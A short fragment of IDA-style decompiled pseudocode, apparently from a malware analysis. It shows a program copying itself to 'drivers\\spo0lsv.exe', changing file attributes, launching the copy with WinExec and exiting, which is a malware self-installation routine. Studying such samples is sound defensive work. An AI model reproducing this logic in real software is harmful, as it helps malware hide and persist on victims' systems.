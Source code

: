 `   sub_403E2C(v12, v14);`

`   sub_403F18(v88, v76);`

` }`

` if ( !v88 )`

` {`

`   sub_40277C(v12, &v74);`

`   sub_40521C(v15, &v75);`

`   sub_4053AC(v75);`

`   sub_403F8C(v16, 3, "spo0lsv.exe", "drivers\\", v72);`

`   sub_40521C(v17, &v73);`

`   sub_404018(v18, v73);`

`   if ( !v19 )`

`   {`

`     sub_405FC4();`

`     sub_405FC4();`

`     sub_4053AC(128);`

`     sub_403F8C(v20, 3, "spo0lsv.exe", "drivers\\", v71);`

`     v21 = (const CHAR *)sub_4040CC();`

`     SetFileAttributesA(v21, v56);`

`     Sleep(1u);`

`     sub_4053AC(0);`

`     sub_403F8C(v22, 3, "spo0lsv.exe", "drivers\\", v70);`

`     v23 = (const CHAR *)sub_4040CC();`

`     sub_40277C(v24, &v69);`

`     v25 = (const CHAR *)sub_4040CC();`

`     CopyFileA(v25, v23, v53);`

`     sub_4053AC(1);`

`     sub_403F8C(v26, 3, "spo0lsv.exe", "drivers\\", v68);`

`     v27 = (const CHAR *)sub_4040CC();`

`     WinExec(v27, v28);`

`     ExitProcess_0(0);`

`   }`

` }`
